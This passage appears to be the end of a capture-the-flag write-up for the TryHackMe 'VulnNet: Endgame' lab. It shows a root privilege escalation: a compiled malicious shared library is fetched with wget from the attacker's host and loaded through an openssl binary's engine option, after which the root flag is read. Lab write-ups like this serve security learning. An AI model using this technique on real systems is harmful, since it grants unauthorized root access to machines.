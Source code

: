 ```bash
:~/Desktop# gcc -shared -o exploit.so -lcrypto exploit.o
```

<h2>exploit</h2>

```bash
system@vulnnet-endgame:/tmp$ wget http://xx.xxx.xx.xx:8000/exploit.so
```

```bash
system@vulnnet-endgame:/tmp$ chmod +x exploit.so
```

```bash
system@vulnnet-endgame:/tmp$ /home/system/Utils/openssl req -engine ./exploit.so
```

```bash
system@vulnnet-endgame:/tmp$ wget http://xx.xxx.xx.xx:8000/exploit.so
```

```bash
system@vulnnet-endgame:/tmp$ chmod +x exploit.so
```

```bash
system@vulnnet-endgame:/tmp$ /home/system/Utils/openssl req -engine ./exploit.so
```

```bash
root@vulnnet-endgame:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1000(system)
```

```bash
root@vulnnet-endgame:/tmp# cd /root
```

```bash
root@vulnnet-endgame:/root# ls
snap  thm-flag
```

```bash
root@vulnnet-endgame:/root# cd thm-flag
```

```bash
root@vulnnet-endgame:/root/thm-flag# ls
root.txt
```

```bash
root@vulnnet-endgame:/root/thm-flag# cat root.txt
THM{********************************}
```

<br>
<p>1.3. What is the root flag?<br>
<code>THM{********************************}</code></p>

<br>
<br>
<h2 align="center">Completed</h2>
<p align="center"><img width="1200px" src="https://github.com/user-attachments/assets/fb6edcf8-d401-41c2-9eaf-99993e873297"><br>
                  <img width="1200px" src="https://github.com/user-attachments/assets/0f72f92c-ae1d-4d7c-8647-21d744493668"></p>
